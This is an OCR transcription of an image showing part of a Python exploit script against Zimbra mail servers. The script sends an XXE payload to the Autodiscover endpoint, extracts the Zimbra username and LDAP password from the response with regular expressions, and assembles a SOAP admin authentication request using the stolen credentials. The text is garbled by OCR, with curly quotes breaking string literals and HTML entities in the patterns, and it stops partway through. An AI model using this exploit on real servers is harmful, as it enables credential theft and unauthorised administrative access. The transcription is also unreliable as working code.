 ```

print("[*] Get User Name/Password By XXE “)

r = requests.post(base_url+”/Autodiscover/Autodiscover.xml",data=xxe_data,headers=headers,verify=False,timeout=15)

#print r.text

if ‘response schema not available’ not in r.text:

print(“don’t have xxe”)

exit()

#low_token Stage

import re

pattern_name = re.compile(r"&lt;key name=("|&quot;)zimbra_user("|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;/value&gt;")

pattern_password = re.compile(r"&lt;key name=("|&quot;)zimbra_ldap_password("|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;/value&gt;")

username = pattern_name.findall(r.text)[0][2]

password = pattern_password.findall(r.text)[0][2]

#print(username)

#print(password)

auth_body="""<soap:Envelope xmlns:soap=“[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)”>

<soap:Header>

<context xmlns=“urn:zimbra”>

<userAgent name=“ZimbraWebClient - SAF3 (Win)” version=“5.0.15_GA_2851.RHEL5_64”/>

</context>

</soap:Header>

<soap:Body>

<AuthRequest xmlns="{xmlns}">

<account by=“adminName”>{username}</account>

<password>{password}</password>

</AuthRequest>

</soap:Body>

</soap:Envelope>

“”"

#print("[*] Get Low Privilege Auth Token")

```